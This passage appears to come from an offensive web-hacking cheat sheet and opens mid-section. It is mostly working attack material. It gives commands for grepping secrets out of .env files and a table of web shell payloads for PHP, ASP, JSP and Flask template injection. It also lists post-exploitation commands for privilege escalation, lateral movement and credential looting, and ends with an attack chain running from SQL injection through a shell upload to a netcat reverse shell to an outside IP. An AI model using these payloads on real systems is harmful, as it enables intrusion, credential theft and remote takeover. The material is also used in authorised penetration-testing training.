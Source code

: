 Extract secrets:

```bash
grep -E "DB_PASS|SECRET" .env
```

***

### XV. ⚙️ WebShell Arsenal

| Type                 | Payload                                                                          |
| -------------------- | -------------------------------------------------------------------------------- |
| **PHP**              | `<?php system($_GET['cmd']); ?>`                                                 |
| **ASP**              | `<% eval request("cmd") %>`                                                      |
| **JSP**              | `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`                  |
| **Python Flask RCE** | `{{ request.args.x.__init__.__globals__['os'].popen(request.args.cmd).read() }}` |

***

### XVI. 💣 Post-Exploitation on Web Servers

#### 🧠 Privilege Escalation

```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
```

#### ⚙️ Lateral Movement

```bash
ssh -i id_rsa user@10.10.10.10
```

#### 💾 Looting Credentials

```bash
cat /var/www/html/config.php
cat ~/.bash_history
```

***

### XVII. ⚙️ Real-World Attack Chain Example

```bash
# 1. Discover parameter
http://target.com/profile.php?id=1

# 2. SQLi → Extract creds
?id=-1 UNION SELECT 1,username,password FROM users--

# 3. Login as admin
# 4. Upload PHP shell
# 5. Execute
curl http://target.com/uploads/shell.php?cmd=id
# 6. Reverse shell
curl http://target.com/uploads/shell.php?cmd=nc -e /bin/bash 10.10.14.2 4444
```
